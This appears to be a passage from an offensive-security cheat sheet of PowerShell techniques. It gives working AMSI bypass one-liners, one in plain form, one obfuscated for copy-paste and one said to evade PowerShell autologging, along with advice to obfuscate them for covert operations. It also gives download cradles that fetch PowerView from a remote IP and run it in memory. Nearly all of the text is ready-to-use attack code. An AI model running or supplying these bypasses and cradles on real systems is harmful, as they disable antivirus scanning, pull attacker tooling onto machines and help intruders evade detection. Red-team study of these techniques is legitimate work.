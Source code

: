 ### PowerShell AMSI Bypass

Patching the Anti-Malware Scan Interface (AMSI) will help bypass AV warnings triggered when executing PowerShell scripts (or other AMSI-enabled content, such as JScript) that are marked as malicious. Do not use as-is in covert operations, as they will get flagged 🚩. Obfuscate, or even better, eliminate the need for an AMSI bypass altogether by altering your scripts to beat signature-based detection.

'Plain' AMSI bypass example:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Obfuscation example for copy-paste purposes:

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Another bypass, which is not detected by PowerShell autologging:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

> More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a custom-generated obfuscated version at [amsi.fail](https:///amsi.fail).

### PowerShell one-liners

#### Load PowerShell script reflectively

Proxy-aware:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```

Non-proxy aware:

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```

> Again, this will likely get flagged 🚩. For opsec-safe download cradles, check out [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter).
